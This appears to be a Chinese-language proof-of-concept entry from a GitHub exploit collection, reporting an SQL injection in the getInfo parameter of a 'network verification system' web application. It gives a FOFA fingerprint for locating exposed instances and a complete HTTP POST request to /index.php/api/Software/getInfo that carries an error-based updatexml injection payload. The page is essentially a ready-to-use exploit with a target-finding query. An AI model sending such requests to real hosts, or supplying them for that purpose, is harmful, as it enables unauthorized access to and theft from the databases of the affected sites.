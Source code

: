 ## 网络验证系统getInfo参数存在SQL注入漏洞


## fofa
```
body="zhuya/js/base.js"
```

![image](https://github.com/wy876/POC/assets/139549762/fc89004e-3d6d-43b5-9d00-628468cb3d7a)

## poc
```
POST /index.php/api/Software/getInfo HTTP/1.1
Host: 
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

data=123456&id=1 and updatexml(1,concat(0x7e,md5(123),0x7e),1)
```


![image](https://github.com/wy876/POC/assets/139549762/c0c54626-76ac-440a-97be-760bb17c61cb)
